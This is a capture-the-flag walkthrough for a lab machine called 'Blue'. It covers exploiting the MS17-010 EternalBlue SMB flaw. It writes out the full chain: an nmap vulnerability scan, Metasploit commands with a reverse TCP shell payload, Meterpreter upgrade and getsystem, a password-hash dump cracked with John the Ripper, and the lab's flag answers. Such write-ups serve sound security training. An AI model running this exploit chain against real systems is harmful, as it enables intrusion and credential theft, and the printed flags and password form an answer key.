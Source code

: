 # Blue Walkthrough

## Overview
This walkthrough guides you through the process of gaining access to a vulnerable machine named "BLUE" and escalating privileges. The steps involve exploiting a vulnerability, discovering user credentials, and implementing server hardening measures.

## Step 1: Port Scanning and Vulnerability Identification

```bash
nmap -sV -sC --script vuln 10.10.200.244
```

The `-sV` flag adds version detection, the `-sC` flag runs default scripts, and the `--script` flag identifies vulnerabilities.

- **Vulnerability Identified:** smb-vuln-ms17-010, CVE-2017-0143

## Step 2: Exploitation

### Metasploit Exploit

```bash
# Start Metasploit
msfconsole

# Search for the ms17-010 exploit
search ms17-010 type:exploit

# Load the EternalBlue module
use exploit/windows/smb/ms17_010_eternalblue

# Set required values, e.g., RHOSTS
show options
set RHOSTS 10.10.200.244

# Set payload and RHOSTS
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.200.244

# Run the exploit
exploit
```

- **Exploitation Code Path:** exploit/windows/smb/ms17_010_eternalblue
- **Required Value:** RHOSTS

### Meterpreter Shell Conversion

```bash
# Background the shell
background

# Search for shell_to_meterpreter module
search shell_to_meterpreter

# Load the shell_to_meterpreter module
use post/multi/manage/shell_to_meterpreter

# Show options and set SESSION value
show options
set SESSION 1

# Run the module
run
```

- **Post Module Path:** post/multi/manage/shell_to_meterpreter
- **Required Option:** SESSION

## Step 3: Privilege Escalation

### Meterpreter Privilege Escalation

```bash
# Background the shell
background

# Verify system access
getsystem

# Migrate to a system process
migrate PROCESS_ID
```

## Step 4: Password Cracking

```bash
# Dump passwords with hashdump
hashdump

# Non-default user found: Jon
# Copy hash to a file (e.g., hash.txt)
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

# Crack password with John the Ripper
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- **Non-default User:** Jon
- **Cracked Password:** alqfna22

## Step 5: Flag Hunt

### Flag 1

```bash
# Navigate to system root
cd /
ls
cat flag1.txt
```

- **Flag 1:** flag{access_the_machine}

### Flag 2

```bash
# Navigate to hashed password location
cd C:/Windows/System32/config
ls
cat flag2.txt
```

- **Flag 2:** flag{sam_database_elevated_access}

### Flag 3

```bash
# Navigate to Jon's Documents folder
cd /Users/Jon/Documents
ls
cat flag3.txt
```

- **Flag 3:** flag{admin_documents_can_be_valuable}

---

**Congratulations!** You have completed the Blue walkthrough. If you found this helpful, consider giving it a thumbs up!
```
